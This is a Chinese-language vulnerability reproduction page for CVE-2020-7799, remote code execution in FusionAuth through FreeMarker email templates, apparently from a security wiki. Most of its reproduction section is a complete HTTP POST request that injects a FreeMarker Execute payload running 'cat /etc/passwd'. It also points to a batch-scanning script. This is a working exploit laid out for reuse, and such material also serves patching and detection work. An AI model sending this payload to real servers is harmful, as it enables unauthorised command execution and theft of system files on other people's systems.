 # （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞

## 一、漏洞简介

在FusionAuth 1.11.0版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页->设置->电子邮件模板）或主题（主页->设置->主题），可利用freemarker.template.utility.Execute执行任意命令

## 二、漏洞影响

## 三、复现过程

post提交

```html
POST /ajax/email/template/preview HTTP/1.1
Host: www.0-sec.org:9011
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 796
DNT: 1
Connection: close
Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%40fusionauth.io&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%2Fexample.com%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}}
```

![image](images/img1.png)

批量检测脚本

```html
https://github.com/ianxtianxt/CVE-2020-7799/
```

## 参考链接

https://www.anquanke.com/vul/id/1910928

https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69
